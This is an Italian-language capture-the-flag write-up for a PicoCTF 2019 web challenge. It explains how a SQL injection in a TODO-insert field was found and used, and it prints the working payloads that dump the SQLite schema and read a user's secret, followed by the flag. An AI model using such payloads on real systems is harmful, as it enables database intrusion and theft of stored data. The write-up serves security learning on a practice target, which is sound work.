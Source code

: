 ```yaml
---
tags:
  - WebExploitation
  - PicoCTF2019
---
```



## Problema 

Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. [link](https://2019shell1.picoctf.com/problem/12234/) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:12234

## Soluzione

Provo il form di registrazione, metto apice `'` ma nulla; probabilmente non è attaccabile.
Provo a mettere l'apice `'` per l'inserimento di un nuovo TODO e ottengo un 500 internal server error: ok, il campo è debole a injection.
In particolare visto che sto inserendo un nuovo valore sarà una INSERT injection, l'obiettivo sarà scrivere nella lista dei TODO il risultato di una query.
Immagino che il server effettui una query analoga a:
```sql
INSERT INTO todo VALUES (1, 'foo', '{0}')
```
Devo modificare il `{0}` in modo che fornisca una query valida ma iniettandoci il risultato di una altra query.
Dopo qualche tentativo inserisco:
```sql
' || (SELECT 1) || '
```
e vedo che tra i TODO vi è il valore "1". Ci siamo!
Provo a capire lo schema del database, per farlo cerco di capire che DBMS sto utilizzando, alla fine trovo una query funzionante:
```sql
' || (SELECT sql FROM sqlite_master WHERE type='table' LIMIT 1) || '
```
Questa query fornisce:
```sql
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) )
```
Dopo qualche tentativo provo a vedere quale è il secret associato al mio utente con 
```sql
' || (SELECT secret FROM user WHERE username  = 'qqq' LIMIT 1) || '
```
e ottengo il CTF!
```
picoCTF{wh00t_it_a_sql_inject46527b2c}
```